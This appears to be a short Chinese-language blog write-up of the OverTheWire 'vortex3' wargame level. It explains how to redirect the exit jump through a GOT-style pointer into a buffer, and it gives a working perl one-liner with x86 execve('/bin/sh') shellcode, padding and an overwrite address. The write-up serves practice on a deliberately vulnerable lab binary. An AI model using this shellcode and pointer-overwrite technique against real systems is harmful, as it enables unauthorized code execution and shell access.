 ```yaml
---
title: vortex3
author: rk700
layout: post
redirect_from: /writeup/2014/07/08/vortex3
tags:
  - OverTheWire
  - exploit
---
```

这道题用的是exit，所以不能通过修改返回地址来做了

但从提示也可以看出要修改got之类的。具体看反汇编的代码，最后exit是`call 0x8048320`，进去看，那里是`jmp *0x08049738`。我们可以修改0x08049738处的值为buf, 再将shellcode放在buffer里即可

具体地，地址0x08049738保存在0x08048322处，而buf与lpp相距132。故

<pre>$ /vortex/vortex3 `perl -e 'print "\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x107 . "\x22\x83\x04\x08"'`</pre>
